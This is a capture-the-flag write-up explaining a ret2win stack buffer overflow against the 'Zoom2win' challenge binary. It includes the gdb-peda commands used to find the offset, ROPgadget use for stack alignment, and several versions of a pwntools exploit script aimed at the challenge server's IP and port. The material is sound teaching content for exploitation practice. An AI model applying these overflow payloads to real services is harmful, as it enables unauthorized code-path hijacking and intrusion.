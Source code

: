 ```yaml
---
title: "Zoom2win KQ CTF [ PWN ]"
date: 2022-02-27T18:29:07-05:00
draft: false
---
```


## __Introduction__

Let's start this challenge by looking at its description, and see what the author has to tell us about it.

![image](https://user-images.githubusercontent.com/88755387/139706301-4ac66425-bb4a-4dd8-8350-f01fe7d00cd2.png)


Okay, so we already know that this is a basic ret2win. Let's not waste any more time and start developing the script.

## __First steps__

Let's see what type of architecture it has because depending on whether it is x64 or x86_64 there are several modifications to be made in the final code.

![image](https://user-images.githubusercontent.com/88755387/139694975-1f9fcd31-b10f-43ff-807a-0fb33785d6eb.png)

Once we know that it is 64-bit let's run it and see what it's all about:

![image](https://user-images.githubusercontent.com/88755387/139695501-85b03a64-1ed4-4959-afe8-97adec7284fb.png)

We can see that when entering many characters, the binary breaks, so we are going to look for its offset in order to overwrite the EIP with the address needed to read the flag.

Before we continue with the offset search let's take a look at its protections to see what we have to deal with.

![image](https://user-images.githubusercontent.com/88755387/139698443-229e41ab-6627-4b29-b3bf-3e645e7d566a.png)

In this case, we see that we only have the NX enabled. This protection marks the stack as non-executable so that even if we can overwrite the EIP to point to our shell code the shell code will never execute. 

The return-to-libc attack circumvents this protection by overwriting the return address, not with an address pointing to our injected shell code but rather to a libc function call address.

## __Offset__

We are going to find the offset using gdb-peda which is a well known debugger in the Pwn world.

```bash
gdb-peda zoom2win
gdb-peda$ pattern create 60
gdb-peda$ r # run te program

[ Enter the created pattern ]

gdb-peda$ pattern offset AA0A # First characters of RSP register
# AA0A found at offset: 40
```

Once we know the offset we will find the function where the flag is located.

## __Flag address__

To find this address we will enter the `info functions` command inside the debugger:

![image](https://user-images.githubusercontent.com/88755387/139700183-0c59bd7e-2e78-4d9f-9841-7ebbc112379f.png)

## __Code development__

Once we have everything ready we are going to develop the script that will launch the flag. For them we will rely on the PwnTools library which will help us to make the operation much easier.

You can download PwnTools by clicking on the following [link](https://github.com/Gallopsled/pwntools).

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)
# elf = ELF('./zoom2win')
# s = process(elf.path)

payload = b'A'*40
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139702489-7c6eb174-3c36-4030-ba5d-506f4268cc5f.png)

This code won't work because we are dealing with a 64-bit binary and we need a return address. We need to jump to this ret address before jumping to the flag function to align the stack, which has to be a multiple of 16.

To find this address we will launch the following command and filter by the word `ret`.

```
ROPgadget --binary ./zoom2win --ropchain | grep ret
```

![image](https://user-images.githubusercontent.com/88755387/139703027-f829df79-6903-4fde-a7ed-653d3a992f63.png)

Once we have it we are going to add it to our code so that it returns the content of the flag.txt.

## __Final code__

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139703774-42574e3b-d233-4efc-9bfe-5b083c53849e.png)

That's what we were looking for :)

We can improve this code so that it only launches the flag without entering interactive mode. It can probably be improved in a thousand different ways, but I think this is good enough for this occasion.

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload) 
response = s.recvall()
print(response.decode())

print(re.search("(kqctf{.*?})",response.decode()))
```

![image](https://user-images.githubusercontent.com/88755387/139704228-3c968c21-d0cc-47db-9e45-e4ba43dca2e1.png)

I hope you liked the writeup! 